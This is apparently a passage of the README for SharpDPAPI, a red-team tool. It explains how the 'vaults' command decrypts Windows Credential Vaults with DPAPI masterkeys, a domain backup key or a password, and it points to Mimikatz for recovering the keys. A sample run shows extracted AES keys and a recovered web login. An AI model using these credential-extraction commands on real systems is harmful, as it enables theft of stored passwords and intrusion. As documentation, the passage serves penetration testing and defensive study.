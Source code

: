     ...(snip)...



#### vaults

The **vaults** command will search for Vaults and either a) decrypt them with any "{GUID}:SHA1" masterkeys passed, b) a `/mkfile:FILE` of one or more {GUID}:SHA1 masterkey mappings, c) use a supplied DPAPI domain backup key (`/pvk:BASE64...` or `/pvk:key.pvk`) to first decrypt any user masterkeys (a la **masterkeys**), or d) a `/password:X` to decrypt any user masterkeys, which are then used as a lookup decryption table. DPAPI GUID mappings can be recovered with Mimikatz' `sekurlsa::dpapi` command.

The Policy.vpol folder in the Vault folder is decrypted with any supplied DPAPI keys to retrieve the associated AES decryption keys, which are then used to decrypt any associated .vcrd files.

A specific vault folder can be specified with `/target:C:\Folder\`. In this case, either a) {GUID}:SHA1 values must be supplied or b) the folder must contain DPAPI masterkeys and a /pvk domain backup key must be supplied.

Using domain {GUID}:SHA1 masterkey mappings:

    C:\Temp>SharpDPAPI.exe vaults {44ca9f3a-9097-455e-94d0-d91de951c097}:9b049ce6918ab89937687...(snip)... {feef7b25-51d6-4e14-a52f-eb2a387cd0f3}:f9bc09dad3bc2cd00efd903...(snip)...
      __                 _   _       _ ___
     (_  |_   _. ._ ._  | \ |_) /\  |_) |
     __) | | (_| |  |_) |_/ |  /--\ |  _|_
                    |
      v1.2.0


    [*] Action: User DPAPI Vault Triage

    [*] Triaging Vaults for ALL users


    [*] Triaging Vault folder: C:\Users\harmj0y\AppData\Local\Microsoft\Vault\4BF4C442-9B8A-41A0-B380-DD4A704DDB28

      VaultID            : 4bf4c442-9b8a-41a0-b380-dd4a704ddb28
      Name               : Web Credentials
        guidMasterKey    : {feef7b25-51d6-4e14-a52f-eb2a387cd0f3}
        size             : 240
        flags            : 0x20000000 (CRYPTPROTECT_SYSTEM)
        algHash/algCrypt : 32772/26115
        description      :
        aes128 key       : EDB42294C0721F2F1638A40F0CD67CD8
        aes256 key       : 84CD64B5F438B8B9DA15238A5CFA418C04F9BED6B4B4CCAC9705C36C65B5E793

        LastWritten      : 10/12/2018 12:10:42 PM
        FriendlyName     : Internet Explorer
        Identity         : admin
        Resource         : https://10.0.0.1/
        Authenticator    : Password!

    ...(snip)...

